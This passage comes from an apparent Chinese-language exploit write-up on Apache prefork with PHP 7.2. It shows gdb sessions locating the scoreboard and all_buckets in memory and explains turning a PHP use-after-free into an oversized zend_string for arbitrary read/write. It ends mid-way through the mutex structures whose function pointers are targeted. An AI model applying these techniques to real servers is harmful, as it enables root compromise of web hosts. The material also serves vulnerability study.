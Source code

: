 PHP堆，ap_scoreboard_image，all_buckets的内存地址

```
root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p
7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so

(gdb) p *ap_scoreboard_image 
$14 = `{`
  global = 0x7f4a9323e008, 
  parent = 0x7f4a9323e020, 
  servers = 0x55835eddea78
`}`
(gdb) p all_buckets 
$15 = (prefork_child_bucket *) 0x7f4a9336b3f0
```

由于我们在PHP对象上触发UAF，因此该对象的任何属性也将是UAF; 我们可以将这个zend_object UAF转换为zend_string。因为zend_string的结构非常有用：

```
(gdb) ptype zend_string
type = struct _zend_string `{`
    zend_refcounted_h gc;
    zend_ulong h;
    size_t len;
    char val[1];
`}`
```

len属性包含字符串的长度。 通过递增它，我们可以在内存中进一步读写，从而访问我们感兴趣的两个内存区域:共享内存和all_buckets。

##### 定位bucket index 和 all_buckets

我们需要修改ap_scoreboard_image-&gt;parent[worker_id]-&gt;bucket中的parent结构中的bucket。幸运的是，parent结构总是处于共享内存块的开始，因此很容易找到：

```
➜  /www curl 127.0.0.1
PID: 14380
7f8a19da9000-7f8a19dc1000 rw-s 00000000 00:04 61736                      /dev/zero (deleted)
➜  /www 

(gdb) p &amp;ap_scoreboard_image-&gt;parent[0]
$1 = (process_score *) 0x7f8a19da9040
(gdb) p &amp;ap_scoreboard_image-&gt;parent[1]
$2 = (process_score *) 0x7f8a19da9064
(gdb)
```

为了定位到all_buckets,我们可以利用我们对prefork_child_bucket结构的了解:

```
prefork_child_bucket `{`
    ap_pod_t *pod;
    ap_listen_rec *listeners;
    apr_proc_mutex_t *mutex; &lt;--
`}`

apr_proc_mutex_t `{`
    apr_pool_t *pool;
    const apr_proc_mutex_unix_lock_methods_t *meth; &lt;--
    int curr_locked;
    char *fname;

    ...
`}`

apr_proc_mutex_unix_lock_methods_t `{`
    unsigned int flags;
    apr_status_t (*create)(apr_proc_mutex_t *, const char *);
```